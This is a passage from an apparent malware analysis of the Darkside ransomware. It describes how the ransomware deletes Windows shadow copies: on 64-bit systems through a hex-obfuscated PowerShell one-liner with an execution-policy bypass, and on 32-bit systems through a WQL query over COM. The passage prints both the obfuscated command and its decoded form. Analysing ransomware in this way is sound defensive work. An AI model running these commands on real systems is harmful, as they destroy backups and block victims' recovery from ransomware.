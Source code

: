 #### 64 bit machine

For 64 bit machines Darkside simply calls **CreateProcessW** to run a decrypted powershell command.

![image-20201206193621423](/assets/images/darkside/10.png)

Powershell command:

```
powershell -ep bypass -c "(0..61)|%{$s+=[char][byte]('0x'+'4765742D576D694F626A6563742057696E33325F536861646F77636F7079207C20466F72456163682D4F626A656374207B245F2E44656C65746528293B7D20'.Substring(2*$_,2))};iex $s"
```

Decoded powershell command:

```
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```

#### 32 bit machine

For 32 bit machines Darkside uses COM interface to execute a WQL query to delete the shadow copies. 

![image-20201207101905825](/assets/images/darkside/11.png)

## Terminating Processes

Darkside takes a list of processes from its own configuration and terminates them using the **TerminateProcess** api:
